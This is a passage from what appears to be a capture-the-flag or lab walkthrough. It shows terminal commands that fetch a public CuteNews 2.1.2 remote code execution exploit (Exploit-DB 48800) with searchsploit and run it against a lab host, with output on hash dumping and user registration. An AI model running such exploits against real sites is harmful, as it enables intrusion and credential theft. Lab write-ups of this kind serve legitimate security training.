 ```
Shellcodes: No Results
```
##### We can found the exploit at expolitdb, use searchsploit download that
```
└─$ searchsploit -m php/webapps/48800.py
  Exploit: CuteNews 2.1.2 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48800
     Path: /usr/share/exploitdb/exploits/php/webapps/48800.py
File Type: Python script, ASCII text executable

Copied to: /home/aaron/Desktop/Cute-192.168.146.75/48800.py


                                                                                                                          
┌──(aaron㉿aacai)-[~/Desktop/Cute-192.168.146.75]
└─$ ls
48800.py  LANs.py
└─$ python3 48800.py



           _____     __      _  __                     ___   ___  ___
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/
                                ___  _________
                               / _ \/ ___/ __/
                              / , _/ /__/ _/
                             /_/|_|\___/___/




[->] Usage python3 expoit.py

Enter the URL> http://192.168.146.75/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
                                                                                                                          
┌──(aaron㉿aacai)-[~/Desktop/Cute-192.168.146.75]
└─$ 

```
##### But we can't execution this python file in this moment, view the python code